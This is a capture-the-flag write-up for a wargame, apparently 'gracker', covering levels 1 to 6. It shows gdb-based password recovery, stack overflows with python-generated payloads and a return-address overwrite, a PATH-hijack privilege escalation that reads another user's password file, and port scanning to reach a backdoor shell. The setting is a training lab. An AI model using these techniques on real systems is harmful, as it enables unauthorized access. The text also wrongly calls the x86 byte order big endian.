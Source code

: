 ## lvl1
`strings` on the backdoor

## lvl2
The password is xor'ed with `A`. After `disas main` we know that first the length is
checked, then the strings itself. Relevant lines:

```
mov    esi,0x600e40
mov    rdi,rax
call   0x4006c0 <strcmp@plt>
```

We set the breakpoint to the line where we call `strcmp`:

```
break *0x00000000004008e2
```

We then input an easy to distinguish password like `asdf`. After inspecting the relevant
registers (`esi` and `rax`) we know what is what:

```
x/s $rax -> 'asdf'
x/s $esi -> 'omitted'
```

So `$esi` holds the password. (We'd also knew that because `mov    rdi,rax` indicates that
the `read` syscall writes our input to `$rax`.) It seems that zero cool was stupid enough
to decrypt his password, instead of encrypting ours.

## lvl 3
Same as lvl2, except that now zero cool doesn't decrypt his password but encrypt ours.
So I wrote a short c prog that mimics his second version, decrypting his encrypted password
obtained by:

```
break *0x00000000004008e0
x/s $esi
```

## lvl4
Simple stack overflow: the idea is simple. The program only checks if `admin_enabled` isn't
zero, so overwriting it with anything suffices. Just input a string with enough characters
that are not zero and you're good to go. (Something like `python -c "print 'A' * 80"`.)
We can look at the stack by looking at the stack pointer:

```
x/32x $rsp
```

as well as the `admin_enabled` value:
```
x $rbp-0x4
```

So we just need to fill the buffer enough to write into `$rpb-0x4`:

Input:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## lvl5
When inspecting the `level4` binary we can see the following:

```
level4@gracker:~$ ls -lah /matrix/level4/level4
-r-sr-x--- 1 level5 level4 7.6K Jun 20  2015 /matrix/level4/level4
```

So each and every level runs as the user of the level above the current one. The hint of
`story` tells us to look at the `PATH`:

```
level4@gracker:~$ echo $PATH
/usr/sbin/:/sbin/:/usr/local/bin:/usr/bin:/bin:/usr/games
```

The approach we can take is to modify any of the binaries executed to print the password
of `level5`. As we can't really create a rogue `uname` in any of the paths, we have to
modify the `$PATH` var with the correct precedence.

```
echo "cat /home/level5/.pass" > /tmp/uname
chmod a+x /tmp/uname
export PATH=/tmp:$PATH
/matrix/level4/level4
```

et voilá, done.

## lvl6
The hints give info about the ports to scan (although given in hex). Scanning the port
range gives one listener on port `2989`.

```
nmap 127.0.0.1 -p 1453-3501
```

Looking at what the program on this port has to say:

```
level5@gracker:~$ nc 127.0.0.1 2989
$ whoami
flynn
$ uname -a
SolarOs 4.0.1 Generic_50203-02 sun4m i386
Unknown.Unknown
$ login -n root
Login incorrect
login: backdoor
No home directory specified in password file!
Logging in with home=/
# bin/history
  499 kill 2208
  500 ps -a -x -u
  501 touch /opt/LLL/run/ok
  502 LLLSDLaserControl -ok 1
#
```

Note that the shell times out (for example when preparing a pizza …):
```
level5@gracker:~$ nc 127.0.0.1 2989
$ whoami
flynn
$ uname -a
SolarOs 4.0.1 Generic_50203-02 sun4m i386
Unknown.Unknown
$ login -n root
Login incorrect
login: backdoor
No home directory specified in password file!
Logging in with home=/
# bin/history
  499 kill 2208
  500 ps -a -x -u
  501 touch /opt/LLL/run/ok
  502 LLLSDLaserControl -ok 1
#
Broadcast message from ZeroCool@h4xx0r (pts/0) (Oct 21 16:29:00 2015):

You are too slow.
Mess With the Best, Die Like the Rest!
```

The output should tell you all you need to know, otherwise go watch the movie!

## lvl6
The code is given and does the following:
1. it takes input
2. `main` calls `gates_of_arjia` with our input
3. `goa` copies our input into the buffer without checking (`32` bytes per the program)
4. it then returns to `__builtin_return_address(0)`, which as per the [documentation](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html),
so the return address of the caller function, which is the next command `0x08048690 <+119>:	add    $0x10,%esp`

The goal now is to find the exact amount of input to get to `0x08048690`, the return address
in the stack.

We now set a breaking point in `gdb` *after* the `strcpy` in `goa` to examine the stack:
```
$ gdb /matrix/level6/level
(gdb) break *0x08048600
(gdb) run $(python -c "print 'A' * 36")
```

Examining the stack gives the following:
```
(gdb) x/32x $esp
0xffffdbb0:	0xffffdbc0	0xffffdded	0x0000002d	0xf7e8ce64
0xffffdbc0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbe0:	0x41414141	0x00000000	0xffffdc08	0x08048690
0xffffdbf0:	0xffffdded	0xffffdcb4	0xffffdcc0	0xf7e5939d
0xffffdc00:	0xffffdc20	0xf7fce000	0x00000000	0xf7e41a63
0xffffdc10:	0x080486a0	0x00000000	0x00000000	0xf7e41a63
0xffffdc20:	0x00000002	0xffffdcb4	0xffffdcc0	0xf7feac7a
```

The return address is `11 WORDS` into the stack. So `44` fillers and the address (due to
big endian in reverse order (two-byte groupings):
```
(gdb) run $(python -c "print 'A' * 44 + '\x8b\x85\x04\x08'")
(gdb) x/32x $esp
0xffffdba0:	0xffffdbb0	0xffffdde1	0x0000002d	0xf7e8ce64
0xffffdbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbc0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbd0:	0x41414141	0x41414141	0x41414141	0x0804858b
(…)
(gdb) continue
Continuing.
Return to: 0x804858b
Welcome to Arjia City!
$
```

(Now exit and run the program with the exploit from above.)

NB:
If you'd run it with the regular address you'd quickly notice that you've got to reverse
the return address:
```
(gdb) run $(python -c "print 'A' * 44 + '\x8b\x85\x04\x08'")
(gdb) x/32x $esp
0xffffdba0:	0xffffdbb0	0xffffdde1	0x0000002d	0xf7e8ce64
0xffffdbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbc0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdbd0:	0x41414141	0x41414141	0x41414141	0x8b850408
(…)
```

Explanation from the recap:

> A summary is, that upon `call` the current EIP is pushed on the stack, and upon `ret` this value is popped from the stack and jumped to.
> With the buffer overflow you can overwrite this address on the stack and redirect code execution when the function wants to return.

## lvl7

